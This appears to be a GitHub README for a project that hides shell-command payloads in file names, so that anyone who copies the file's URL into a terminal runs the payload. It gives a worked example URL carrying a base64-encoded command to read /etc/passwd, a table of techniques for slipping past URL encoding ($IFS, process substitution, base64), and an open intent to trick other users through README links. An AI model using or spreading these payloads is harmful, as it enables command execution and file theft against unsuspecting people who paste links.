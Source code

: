 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the url in the address bar

Brainlets like LTT will copy the url and eventually execute the payload, since they don't know about the "raw" button.
Bypassing the rookie level will get you to this point.
Bypassing the god-like level will get you the same, but on the raw content page, which is way nastier.
Create a file called ";whoami" and follow the steps above.
When its url is pasted in the terminal, like ```wget http://localhost/;whoami```,
the payload is executed. Can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php  
or try to encode the payload directly  
https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)
# markdown
we can also put the link in the readme and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
'>'   # needed for redirection, replaced by "<"
```

# todo
rookie level:
```
'<'
```
should be pretty easy, we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. ```fakebase -d "bG1hbwo="```, since base64 takes the argument as a file not a string

god-like level:
```
'$'
';'
```
should be impossible since you can't use variables nor "start" the command execution
